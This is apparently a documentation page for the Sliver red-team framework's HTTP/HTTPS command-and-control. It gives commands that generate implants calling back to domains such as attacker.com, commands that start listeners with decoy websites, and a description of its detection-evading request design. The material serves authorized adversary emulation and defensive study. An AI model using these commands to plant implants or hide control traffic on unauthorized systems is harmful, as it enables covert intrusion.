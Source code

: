 
⚠️ __This page is a work in progress__

# Setup

Sliver supports proxy-aware C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous. There are separate commands for the listeners but an implant generated with `--http` may attempt to connect over both HTTP and HTTPS (see "under the hood" for more details.
 

## Generate the Implant

Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at `example.com` run the following:

#### Basic Example

```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```

#### Multiple Domains

You can also specify multiple domains, in the event the implant cannot connect to the first it will subsequently attempt to connect to each domain you specified in order. Subsequent attempts are made based on the `--reconnect` argument (default 60 seconds). If no attempts are successful, the implant will loop across all of the domains until `--max-errors` (default 1000) is reached, at which point the implant will terminate execution:

```
sliver > generate --http example.com,attacker.com

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
```

#### Proxies

The implant attempts to auto-detect proxy settings using a modified version of the [go-get-proxied](https://github.com/rapid7/go-get-proxied) library. It supports detection of system proxy settings on Windows, MacOS, and Linux. In the event the implant cannot make a successful HTTP/HTTPS connection for a given domain using the system proxy settings, it will also attempt to make a connection to the same domain ignoring the proxy settings. The order of connection attempts is as follows:

1. HTTPS over system proxy
1. HTTP over system proxy
1. HTTPS direct connect
1. HTTP direct connect


#### Proxy Configuration

The priority of retrieval is the following:
-  **Windows**
   - Environment Variable: `HTTPS_PROXY`, `HTTP_PROXY`, `FTP_PROXY`, or `ALL_PROXY`. `NO_PROXY` is respected.
   - Internet Options: Automatically detect settings (`WPAD`)
   - Internet Options: Use automatic configuration script (`PAC`)
   - Internet Options: Manual proxy server
   - WINHTTP: (`netsh winhttp`)
- **Linux**
   - Environment Variable: `HTTPS_PROXY`, `HTTP_PROXY`, `FTP_PROXY`, or `ALL_PROXY`. `NO_PROXY` is respected.
- **MacOS**
   - Environment Variable: `HTTPS_PROXY`, `HTTP_PROXY`, `FTP_PROXY`, or `ALL_PROXY`. `NO_PROXY` is respected.
   - Network Settings: `scutil`


## Start the Listener 

To start an HTTP listener use the `http` command, with no parameters this will start a listener on port 80 and respond to any domain (i.e., HTTP `Host:`) that comes in:

```
sliver > http
```

You can optionally restrict the listener to only respond to specific domain using the `--domain` flag, currently each listener can only accept a single domain (but you can start any number of listeners you want):

```
sliver > http --domain example.com
```


## Static Content

Sliver can stand up a website on your HTTP(S) listener in order to make the server look more legitimate. For example, you could put a default IIS index page here and mimic a normal-looking server in case someone comes by snooping. You can manage static content using the `websites` command (see `websites --help`):

```
websites --website fake-blog --web-path / --content ./index.html add
```

Each "website" is identified by a name (`fake-blog` in the example above) and is essentially just key<->value pairs request paths (e.g. `/foo/bar.html`) and response's content. Currently we don't support any regex matching for paths, it has to be an exact match, so keep that in mind if you're linking to content.

__Note:__ C2 related messages are identified, intercepted, and responded to prior to checking for user-provided `website` content, so you can actually map content to any URL used for C2.

To use your website with an HTTP(S) listener, specify it using `--website` when you start the listener:

```
sliver > http --website fake-blog --domain example.com
```

## SSL/TLS Certificates

By default when using the `https` listener Sliver will simply generate a random self-signed certificate. However, other options do exist. The `https` listener also supports automatic TLS certificates via Let's Encrypt, which can be enabled using the `--lets-encrypt` flag.

```
sliver > https --domain example.com --lets-encrypt
```

This uses Let's Encrypt/ACME HTTP validation, so the server will need the ability to start a public listener and you'll need to have the DNS for your `--domain` pointed to the Sliver server. If you're having issues pulling a certificate be sure to [check the logs](https://github.com/BishopFox/sliver/wiki/Troubleshooting).

You can also upload your own SSL/TLS certificate/key pairs:

```
sliver > https --domain example.com --cert ./cert.pem --key ./key.pem --website fake-blog
```

# Under the Hood

This section covers the "under the hood" implementation details of Sliver's HTTP C2, and may be useful for users want to understand, extend, or are simply curious about Sliver's design.

### Design Goals

The primary goals of the existing HTTP C2 design are to:

* __Reliable Connections__ The implants foremost goal is to get a connection out of the network, regardless of the environment's configuration. 
* __Data Security__ I won't cover this here, but [click here](https://github.com/BishopFox/sliver/wiki/Transport-Encryption) for details.
* __Network Layer Evasion__ C2 messages should be hard to detect from the network layer alone, without the user having to build custom profiles. This is done via "Procedural C2" as detailed below. 

### Procedural C2

This is basically something I just made up, but the idea is that instead of creating custom C2 profiles that define where to put data in an HTTP request we [procedurally generate](https://en.wikipedia.org/wiki/Procedural_generation) an HTTP request with the data in it. In practice this seems to work pretty well, though the number of variations built into Sliver is somewhat limited right now. If the technique proves to work well in the field we'll likely expand it (and at some point it may be a good idea to base the generation based on some type of seeded RNG so that a given request can be regenerated given a seed).

The high level process to generate and send a request is:
1. Randomly generate the request path using built-in path segments. The path will have on of the following extensions, which indicate the type of message. Everything in the path except for the extension is ignored by the server:

* `.txt` = RSA key exchange
* `.jsp` = Start session
* `.php` = Session messages
* `.js` = Long poll endpoint
* `.png` = Stop/kill session

2. Randomly select an encoder from `server/encoders`, each encoder has a unique "Encoder ID"
3. Generate a `nonce`, the nonce is equal to a random number times the `EncoderModulus` plus the encoder ID; the `EncoderModulus` is a constant value. The server does the opposite (nonce modulo `EncoderModulus`) to determine the original Encoder ID.

```
nonce := (insecureRand.Intn(maxN) * EncoderModulus) + encoderID
encoderId := nonce % EncoderModulus
```

The nonce is included in the request as the query parameter `_`, the idea is that this a standard pattern for "cache busting" and at a glance looks legitimate. The server also ignores any request that does not contain a valid nonce.






